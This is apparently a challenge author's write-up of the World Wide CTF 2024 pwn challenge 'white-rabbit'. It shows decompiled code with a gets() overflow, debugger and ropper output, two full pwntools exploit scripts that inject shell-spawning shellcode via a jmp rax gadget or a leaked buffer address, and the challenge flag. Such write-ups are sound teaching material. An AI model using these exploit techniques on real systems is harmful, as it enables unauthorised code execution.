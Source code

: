 +++
title = 'World Wide CTF 2024 - pwn/white-rabbit'
date = 2024-12-01T06:52:21-05:00
draft = false
+++

White Rabbit is a shellcode challenge I created for WWCTF 2024. I will walk you through the intended solution and share an very clever approach discovered by my teammate @Nosimue.


## Overview

We are given a binary (white_rabbit) and a remote netcat endpoint. The first step is to analyze the binary's protections useing `checksec`

```shell
[d@d-20tk001gus challs]$ checksec --file=white_rabbit
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   31 Symbols	  No	0		2		white_rabbit
```

1. NX Disabled: Allows execution of injected shellcode.
2. PIE Enabled: The binary is loaded at a random address in memory.
3. No Canary: The binary does not use stack canaries, which are a protection against buffer overflow attacks.
4. ASLR Enabled: Stack and binary addresses are randomized.

Running the program locally:

```shell

  (\_/)
  ( •_•)
  / > 0x60f1f6156180

follow the white rabbit...
```

The program prints an address. Disassembling the binary in Ghidra reveals that the printed address is the address of the main function. Here's a look at main:

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("\n  (\\_/)");
  puts(&DAT_0010200d);
  printf("  / > %p\n\n",main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```

And the follow function:

```c
void follow(void)

{
  char local_78 [112];
  
  gets(local_78);
  return;
}

```
The vulnerability is in follow(), which uses gets() to read user input without bounds, making a buffer overflow possible. Our goal is to inject shellcode into the buffer and execute it. However, since the leaked address is not a stack address, we don't know where to jump to. We need to find a different way to execute our shellcode,

## Analyzing Input

Let's take a look at what happens to our input after gets() is called in follow() Attaching a debugger and setting a breakpoint after gets() and sending 'AAAAAAA' as input we see:

```shell
$rax   : 0x00007fffffffe150  →  "AAAAAAAA"
$rbx   : 0x00007fffffffe2f8  →  0x00007fffffffe6c1  →  "/home/d/Downloads/WWCTF24/challs/white_rabbit"
$rcx   : 0x00007ffff7f828e0  →  0x00000000fbad208b
$rdx   : 0x0
$rsp   : 0x00007fffffffe150  →  "AAAAAAAA"
$rbp   : 0x00007fffffffe1c0  →  0x00007fffffffe1d0  →  0x00007fffffffe270  →  0x00007fffffffe2d0  →  0x0000000000000000
$rsi   : 0x00007ffff7f82963  →  0xf84720000000000a ("\n"?)
$rdi   : 0x00007ffff7f84720  →  0x0000000000000000
$rip   : 0x000055555555517d  →  <follow+0014> nop
$r8    : 0x0
$r9    : 0x0
$r10   : 0x0
$r11   : 0x246
$r12   : 0x1
$r13   : 0x0
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000555555554000  →   jg 0x555555554047
$r15   : 0x0000555555557dd8  →  0x0000555555555110  →   endbr64
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```

The input buffer is pointed to by RAX after gets(). This makes sense as RAX is usually used to hold the return value of a functions. This means if we can find a jmp rax or call rax gadget in the binary, we can redirect execution to our shellcode in the buffer.

## Finding Gadgets with Ropper

Using ropper, we can search for a gadget to execute our shellcode:

```shell
[d@d-20tk001gus challs]$ ropper --file=white_rabbit --search "jmp rax"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp rax

[INFO] File: white_rabbit
0x00000000000010bf: jmp rax;
0x00000000000010bf: jmp rax; nop dword ptr [rax]; ret;
0x0000000000001100: jmp rax; nop word ptr [rax + rax]; ret;
```

The jmp rax gadget at 0x10bf allows us to jump directly to the address stored in RAX — exactly what we need.

## Crafting the exploit:

1. Calculate Base Address: Since PIE is enabled, the binary is loaded at a randomized base address. We use the leaked address of main to compute the base address:
`elf.address  = int(p.recvuntil("\n").strip(), 16) - elf.sym.main`
2. Calculate Overflow Offset: The distance between the start of the buffer and RIP is 120 bytes.
3. Craft our shellcode: We could write our own, but pwncools shellcraft is very convinient :) 
4. Finally we build our payload: First our shellcode, then padding to instruction pointer, and then our jmp rax gadget.

Here is our final solve script:

```python
elf = context.binary = ELF('../white_rabbit',)
p = remote("whiterabbit.chal.wwctf.com", 1337)

jmp_rax = next(elf.search(asm('jmp rax')))

p.recvuntil(">");
elf.address  = int(p.recvuntil("\n").strip(), 16) - elf.sym.main

jmp_rax += elf.address

payload = asm(shellcraft.sh())
payload = payload.ljust(120, b'A')
payload += p64(jmp_rax)

p.sendline(payload)
p.interactive()
```

`wwf{jmp_d0wn_th3_r4bb1t_h0le_0caba44088}`



## Alternate Solution: Leaking Buffer Address 

During internal testing of this challenge, my teammate @Nosiume came up with a very clever solve that bypasses the need for a jmp rax gadget entirely by leaking the address of the buffer. Here's how it works:

After gets() in the follow() function, the address of the buffer is stored in RAX. By finding a code path that prints the contents of RAX, we can leak the buffer address to bypass ASLR. This instuction within main moves the contents of rax to rsi.

` 0x00000000000011d1 <+45>:	mov    rsi,rax`

At this point:
   - rax holds the address of our input buffer.
   - rsi (set by mov rsi, rax) will be passed to printf() as the second argument during a subsequent call.

If we redirect execution to this instruction, the buffer address will be printed during the next printf() call. Afterward, the program continues to the follow() function, where we can use the leaked address for a direct return to our shellcode.

Here is his final solve script.



```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./white_rabbit')
context.terminal = ['alacritty', '-e']

gs = """
b *follow+26
continue
"""
io = gdb.debug(elf.path, gdbscript=gs) if args.GDB else process()

def exploit():
    context.log_level = 'info'

    io.recvuntil(b'> ')
    elf.address = int(io.recvline(), 16) - elf.sym.main

    info("elf base : " + hex(elf.address))
    info("target : " + hex(elf.address + 0x11d1))

    offset = 120
    payload = b'A'*offset + pack(elf.address + 0x11d1)

    io.sendlineafter(b'...\n', payload)
    io.recvuntil(b'> ')

    shellcode_addr = int(io.recvline(), 16)
    payload = flat({
        0: [ asm(shellcraft.amd64.linux.sh()) ],
        offset: [ shellcode_addr ]
    })

    io.sendlineafter(b'...\n', payload)
    io.interactive()

if __name__ == "__main__":
    exploit()
```

If you came up with a unique solve or have feedback on the challenge, I'd love to hear from you.